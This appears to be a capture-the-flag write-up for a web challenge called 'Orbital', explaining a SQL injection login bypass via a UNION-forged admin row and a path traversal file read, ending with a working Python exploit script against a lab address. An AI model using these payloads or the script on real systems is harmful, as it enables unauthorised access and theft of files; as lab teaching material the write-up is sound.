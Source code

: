 ## Orbital :: Easy
#### Scenario 

```
 Orbital
 In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
```

#### Solve
##### Auth bypass

![](/images/orbital-source-tree.png)

This challenge builds on the basics of SQL Injection explored in the `Drobots` challenge.  
It is another case of login bypass, with a much more interesting payload.  

The login logic for the application is the following:  

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

In a query like this, you could use UNION to include a handcrafted row.  
This way you can provide a username and the hashed password of your choice.  

The application will internally use these values when comparing the provided password with the hashed one.

```python
user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
```

We can see that the application uses the `md5` algorithm to hash the passwords before storage.  
This is in the `util.py:passwordVerify` function.  

```python
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```

This means that we have to provide the password hashed with `md5` in our payload.  

Payload:  

```
owned" UNION SELECT "admin","21232f297a57a5a743894a0e4a801fc3" FROM users;#
```

`admin`: is the target user.  
`21232f297a57a5a743894a0e4a801fc3`: is the md5 hash of "admin".  

When logging in we provide the injection in the username input and the password 'admin' in the password input.  
  
Here is the resulting query executing on the database:  

```sql
SELECT username, password FROM users WHERE username = "owned" UNION SELECT "admin", "21232f297a57a5a743894a0e4a801fc3" FROM users;#"
```

When executing, the database will not return results for the `owned` username, which means it will use our specified row.  

![](/images/orbital_login.png)

We are then logged into a dashboard:  

![](/images/orbital_dashboard.png)

##### LFI in export function

In this dashboard, there is an export function for various communications.  

![](/images/orbital_export.png)

The application has an export api that relatively includes an mp3 file.  
This file is then downloaded.  

By using path traversal, we can traverse the filesystem back to the root directory to include our target `signal_sleuth_firmware`.  

![](/images/orbital_export_request.png)

With the following payload:  

```json
{
    "name":"../../../../../../../../../../../signal_sleuth_firmware"
}
```

Once we obtain this file, it contains the flag !  

#### Script
```python
#!/usr/bin/env python3
import requests

TARGET = "http://10.18.232.1:1337"
LOGIN_ENDPOINT = "/api/login"
EXPORT_ENDPOINT = "/api/export"
PAYLOAD = "owned\" UNION SELECT \"admin\",\"21232f297a57a5a743894a0e4a801fc3\" FROM users;#"
FLAG_LFI_PAYLOAD = {"name": "../../../../../../../../../../../signal_sleuth_firmware"}

if __name__ == "__main__":
    print("[*] BYPASSING LOGIN")
    s = requests.Session()
    s.post(TARGET + LOGIN_ENDPOINT,
                  json={"username": PAYLOAD, "password": "admin"})

    print("[*] Using Path Traversal + LFI to include flag")
    flag = s.post(TARGET + EXPORT_ENDPOINT, json=FLAG_LFI_PAYLOAD)
    print(flag.text)
```


